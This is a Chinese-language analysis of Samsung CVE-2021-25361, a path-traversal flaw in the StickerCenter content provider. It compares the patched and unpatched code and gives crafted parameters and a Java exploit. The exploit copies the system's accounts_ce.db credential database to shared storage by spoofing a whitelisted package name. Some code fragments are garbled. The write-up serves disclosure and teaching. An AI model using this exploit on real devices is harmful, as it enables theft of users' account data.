 Samsung CVE-2021-25361 漏洞分析及利用
==============================

**0x1 漏洞描述**
------------

该漏洞编号为 `CVE-2021-25361`，官方描述如下。

```txt
CVE-2021-25361: Arbitrary file read/write vulnerability via unprotected StickerCenter content provider

Severity: Moderate
Affected versions: P(9.0), Q(10.0)
Reported on: October 8, 2020
Disclosure status: Privately disclosed.
An improper access control vulnerability in stickerCenter prior to SMR APR-2021 Release 1 allows local attackers to read or write arbitrary files of system process via untrusted applications.
```

**0x2 漏洞分析**
------------

根据官方文档描述可知，该漏洞位于 `Sticker center` 中，根据漏洞报告，下载 `SMR APR-2021 Release 1` 的官方 Rom，并与老版本进行对比发现以下差异。

旧版本如下：

```java
//旧版本
package com.samsung.android.stickercenter.StickerProvider;

public class StickerProvider extends StickerProvider {
//---snip---
private Uri insertInternal(SQLiteDatab ase datab ase, Uri uri, ContentValues CV, int arg19, boolean isNotify){
        String pkgName = contentResolve.getAsString(PKG_NAME);
        String Type = contentResolve.getAsString(TYPE);
        String versionName = contentResolve.getAsString(VERSION_NAME);
        String versionCode = contentResolve.getAsString(VERSION_CODE);
        String filePath = contentResolve.getAsString(FILE_PATH);
        String preName = contentResolve.getAsString(PREVIEW_NAME);
        String orgName = contentResolve.getAsString(ORIGINAL_NAME);
//---snip---
    }
//---snip---
}

```

新版本如下：

```java
//新版本
package com.samsung.android.stickercenter.StickerProvider;

public class StickerProvider extends StickerProvider {
//---snip---
    private Uri insertInternal(SQLiteDatab ase datab ase, Uri uri, ContentValues contentResolve, int arg19, boolean isNotify) {
        String pkgName = FilenameUtils.getName(contentResolve.getAsString(PKG_NAME));               // ---- 补丁
        String Type = FilenameUtils.getName(contentResolve.getAsString(TYPE));                          // ---- 补丁
        String versionName = contentResolve.getAsString(VERSION_NAME);
        String versionCode = contentResolve.getAsString(VERSION_CODE);
        String filePath = FilenameUtils.getName(contentResolve.getAsString(FILE_PATH));         // ---- 补丁
        String preName = FilenameUtils.getName(contentResolve.getAsString(PREVIEW_NAME));       // ---- 补丁
        String orgName = FilenameUtils.getName(contentResolve.getAsString(ORIGINAL_NAME));  // ---- 补丁
//---snip---
    }
//---snip---
}
```

新版本 `FilenameUtils` 类如下:

```java
//新版本中,FilenameUtils 类
public class FilenameUtils {
    private static void failIfNullBytePresent(String arg3) {
        int v0 = arg3.length();
        int v1 = 0;
        while(v1  v0) {
            if(arg3.charAt(v1) != 0) {
                ++v1;
                continue;
            }

            throw new IllegalArgumentException(Null byte present in file/path name. There are no known legitimate use cases for such data, but several injection attacks may use it);
        }
    }

    public static String getName(String arg1) {
        if(arg1 == null) {
            return null;
        }

        FilenameUtils.failIfNullBytePresent(arg1);
        return arg1.substring(FilenameUtils.indexOfLastSeparator(arg1) + 1);
    }

    public static int indexOfLastSeparator(String arg2) {
        return arg2 == null ? -1 : Math.max(arg2.lastIndexOf(0x2F), arg2.lastIndexOf(92));
    }
}

```

从对比中得知,漏洞补丁主要思路是通过 `FilenameUtils.getName` 函数对路径做进一步的筛查，其中筛查主要分为两个方面:

- 通过 `FilenameUtils.failIfNullBytePresent` 函数确保路径中没有无效空字符。
- 通过 `arg1.substring(FilenameUtils.indexOfLastSeparator(arg1) + 1)` 确保只保留最后一个层级的目录字符串。

下面开始简单的分析漏洞触发流程.  
该漏洞存在于 `stickercenter.StickerProvider` 中的 `insert` 函数，在用户层可通过`ContentResolver` 调用其 `insert` 函数，首先在 `insert` 函数中，会验证调用者的包名是否合法:

```java
private Uri(Uri uri, ContentValues CV){
//---snip---
    if(!this.isAuthorizedStickerApp(v2)) {
        StickerLog.d(StickerProvider.TAG, Unauthorized calling package :  + v2);
        return null;
    }
//---snip---
}

```

`isAuthorizedStickerApp` 函数会验证 Exploit APP 包名是否在 `AUTHORIZED_PACKAGES` 白名单中:

```java
private boolean isAuthorizedStickerApp(String arg1) {
        return Constants.AUTHORIZED_PACKAGES.contains(arg1);
}
```

该处只需替换 Exploit APP 包名为白名单中所包含的即可，`AUTHORIZED_PACKAGES` 初始化的白名单列表如下:

```java
Constants.AUTHORIZED_PACKAGES = new ArrayList(Arrays.asList(new String[]{
com.sec.android.app.samsungapps, com.samsung.android.contacts, com.samsung.android.incallui, com.samsung.android.messaging, com.samsung.android.calendar, com.sec.android.mimage.photoretouching, com.sec.android.app.camera, com.sec.android.app.vepreload, com.samsung.android.stickerplugin, com.samsung.android.provider.stickerprovider, com.sec.android.inputmethod, com.sec.android.inputmethod.beta, com.sec.android.app.camera.avatarauth, com.samsung.android.stickonme, com.samsung.android.service.livedrawing, com.sec.android.mimage.avatarstickers, aeslauncher.android.sec.com.aeslauncheractivity, com.sec.android.easyMover, com.samsung.android.aremoji
com.samsung.android.icecone, com.samsung.android.honeyboard, com.samsung.android.aremojieditor, com.samsung.android.sdk.sketchbook.avatarapp, com.samsung.android.livestickers, com.samsung.android.app.contacts, com.samsung.android.stickertestapp, com.samsung.android.gearnplugin, com.samsung.android.gearrplugin, com.samsung.android.gearpplugin, com.samsung.android.geargplugin, com.samsung.android.hostmanager}));
}
```

用户可传入构造的参数`ContentValues` , 随后，会根据传入的参数获得如下几个参数:

```java
private Uri insertInternal(SQLiteDatab ase datab ase, Uri uri, ContentValues contentResolve, int arg19, boolean isNotify) {
//---snip---
    String pkgName = contentResolver.getAsString(PKG_NAME);
    String Type = contentResolver.getAsString(TYPE);
    String versionName = contentResolver.getAsString(VERSION_NAME);
    String versionCode = contentResolver.getAsString(VERSION_CODE);
    String filePath = contentResolver.getAsString(FILE_PATH);
    String preName = contentResolver.getAsString(PREVIEW_NAME);
    String orgName = contentResolver.getAsString(ORIGINAL_NAME);
//---snip---
}
```

`insert` 函数首先会调用 `checkExistSameData` 函数，通过 `pkgName` 和 `Type` 获取一个数据库:

```java
public Uri insert(Uri uri, ContentValues contentResolver) {
//---snip---
        if(this.checkExistSameData(pkgName, Type, CV.getAsString(PREVIEW_NAME), CV.getAsString(ORIGINAL_NAME)) != 0) {
                return null;
        }
//---snip---
}
```

`checkExistSameData` 函数会查询 `mStickerItemsDBHelperList` 是否匹配用户传入的 `pkgName` 和 `Type` 的数据库，若没有,则创建一个，并添加到 `checkExistSameData` 中。

接着,会进入 `insertInternal` 函数，先通过用户传入的 `filePath + preName` 获得一个 `bitmap`

```java
//---snip---
byte[] bitmapFile = this.getByteFromBitmap(Uri.parse(filePath + preName));
//---snip---
```

接下来,将旧文件复制到新的路径中。旧文件路径为: `filePath + orgName` ,新文件路径为 `/data/overlays/sticker/0/ + Type + / + pkgName + /assets + / + orgName` 。  
漏洞利用的思路就是构造旧文件路径为 `system_proccess` 可读的文件，并利用路径遍历，将新文件路径指向 `/sdcard` 中，那么，用户传入的参数总结如下:

```java
    /data/overlays/sticker/0/ + Type + / + pkgName = datab asePath   //system_proccess权限可访问即可
    filePath + preName = bitmapPath   //在sdcard下,这样有利于提前放入准备好的 .gif 格式文件
    filePath + orgName = oldFilePath  //system_proccess权限可读
    /data/overlays/sticker/0/ + Type + / + pkgName + /assets + / + orgName = newFilePath //在sdcard目录下
```

**0x3 漏洞利用**
------------

首先，需要让APP的包名为上述列表中的包名之一.  
现在，假设要将 `data/system_ce/0/accounts_ce.db` 移动到sdcard中，那么各参数构造如下:

```java
    PKG_NAME:   com.mTEST1;
    TYPE:   ../../../../sdcard/;
    FILE_PATH:  file:///data/system_ce/0/;
    ORIGINAL_NAME:  accounts_ce.db;
    PREVIEW_NAME:   ../../../sdcard/com.mTEST1/assets/test.gif;
```

重复添加 PREVIEW\_NAME 会导致数据库报错，无法后续流程

```java

private int checkExistSameData(String arg9, String arg10, String arg11, String arg12) {
//---snip---
    if(new File(v6_1.toString()).exists()) {
        StickerLog.d(StickerProvider.TAG, There is a same file.);
    }
//---snip---
}
```

解决方法有两种，第一种是每次更改 `.gif` 的文件名，第二种方案是调用 `Provider` 的 `delete` 函数，具体见 `Exploit` 代码.

确定好各参数，接下来开始编写主要代码，核心的 `Exploit` 如下：

```java
public static void insert(ContentResolver contentResolver){
        Uri uri = Uri.parse(content://com.samsung.android.stickercenter.provider/update/sticker/item/);
        ContentValues contentValues = new ContentValues();

        contentValues.put(PKG_NAME,com.mTEST);
        contentValues.put(TYPE,../../../../sdcard/);
        contentValues.put(FILE_PATH,file:///data/system_ce/0/);
        contentValues.put(ORIGINAL_NAME,accounts_ce.db);
        contentValues.put(PREVIEW_NAME,../../../sdcard/com.mTEST1/assets/test.gif);

        Uri result = null;

        result = contentResolver.insert(uri,cv);
        if(result == null){
            log(result is null);
        }else{
            log(result.toString());
        }
    }
```

**0x4 路径遍历总结**
--------------

路径遍历类漏洞主要产生于对于包含了路径的字符串审查不严格，以及对高权限模块的调用者筛选不严格导致的。在编写代码时，要对由用户输入的参数保持高度警惕，做好充分的“消毒”，通常需要由专门的“工具类”来复用此类检查工作，要想完全避免路径遍历类漏洞，还是需要充分的代码审计以及测试步骤。